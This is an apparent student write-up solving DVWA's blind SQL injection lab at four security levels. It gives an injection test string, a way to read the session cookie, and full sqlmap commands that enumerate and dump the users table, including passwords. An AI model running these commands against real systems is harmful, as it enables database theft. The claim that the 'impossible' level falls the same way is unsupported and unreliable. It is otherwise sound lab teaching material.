 # DVWA - SQL Injection (Blind) Solution


## Low level
> Use `1' or '1' = '1' #` to test the SQL injection. The web response 'User ID exists in the database'. So, we can know there can be attack.
> 
> ![](https://i.imgur.com/43sNhp1.png)
> 
> Then we use the tool named 'sqlmap' to get the database's name.
> We need to get the cookie on the browser, tpye `document.cookie` on the consloe on browser.


> Open the consoleuse "F12" and enter the `document.cookie` to get the cookie.
> 
> ![](https://i.imgur.com/JuU9HSP.png)

> And use the following command to get the name of database. 
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --current-db 
```
> ![](https://i.imgur.com/drfAfxk.png)

> Now we can change the environment variable to get the tables name using the following command.
> 
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" -D dvwa --tables
```
> Then we can get the table name in the "dvwa" database.
> 
> ![](https://i.imgur.com/4EC9MU9.png)


> Use the followig command to get the columns name.
> 
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" -D dvwa -T users --columns
```
> 
> ![](https://i.imgur.com/bJKOkXJ.png)
> 
> Use the followig command to get the data in database.
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd" -D dvwa -T users -C user,avatar,password --technique=B -v 3 --dump --batch
```
> 
> ![](https://i.imgur.com/NEpQJXQ.png)
> 

## Medium level
> In this case, the web use the select bar to choose the idto search.
> Then we use the proxy to check the request, as the figure can see, it use the post method to get the data.
> 
> ![](https://i.imgur.com/8BUgk7L.png)
> 
> In this level we also use the sqlmap to inject to the sql.

> Use the following command to attack the sql.
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/" --cookie "security=medium; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --data="id=1&Submit=Submit" --dbs
```
> ![](https://i.imgur.com/KMGYhDt.png)
> 
> We can see all of database in this sql.

> We can use the following command like the low level to get the tables.
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/" --cookie "security=medium; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --data="id=1&Submit=Submit" -D dvwa --tables
```
> ![](https://i.imgur.com/jQA7FYO.png)
> 
> As the figure can see there is two tables named guestbook and users.

> We also can use the same way to get other information in this sql.
> 

## High level 
> In high level, it will set the input to the cookie. Then will read the cookie and get the newest id in cookie and sent it to the backend to search. As the figure can see the request header.
> 
> ![](https://i.imgur.com/I8uGHmG.png)

> So, we can also use the sqlmap to attack the sql using the following command like the previous level.
> 
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie "security=high; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --dbs
```
> ![](https://i.imgur.com/LUj4gwH.png)

> We can use the similar way like prevous level to get the information from the sql.
> 

## Impossible level
> In the impossible level the request need to include 'user_token'. We can use the proxy to know it like the following figure.
> 
> ![](https://i.imgur.com/xzI9IDF.png)

> Therefore we can use the sqlmap in the same way to get the information from the sql.
> 

> Using the following command we can see all of databases' name in the sql.
```
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit&user_token=f489d3c81e8579ead5f61d4947bf3d3e" --cookie "security=impossible; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd" --dbs
```
![](https://i.imgur.com/Qly6dTg.png)

> Then you can use the similar way to get the other information.
> 